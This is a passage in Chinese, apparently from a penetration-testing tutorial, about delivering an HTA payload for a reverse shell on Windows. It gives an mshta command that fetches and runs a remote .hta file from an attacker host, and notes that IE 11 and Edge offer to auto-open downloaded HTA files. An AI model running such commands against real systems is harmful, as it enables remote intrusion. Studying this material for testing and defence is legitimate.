 Payload 和 target 设置类型设置为 X64 还是 X86，实际情况要根据系统版本来看。

执行反弹。

```bash
mshta http://<Host>:8080/say00S5.hta
```

除了使用 mshta 运行外还可以通过浏览器运行。在 IE 11 和新老版本 Edge 浏览器下载 hta 应用后存在自动打开按钮（Chrome 和 Firefox 则是直接下载）。

![Internet Explorer 11 下载 HTA.png](assets/1708583756-76d4a9c5a1450d30ff4c65b3869cc33a.png)  
![Edge（改版前）下载 HTA.png](assets/1708583756-bc180bd2dc9e4b0dfb27a93cda10a62a.png)  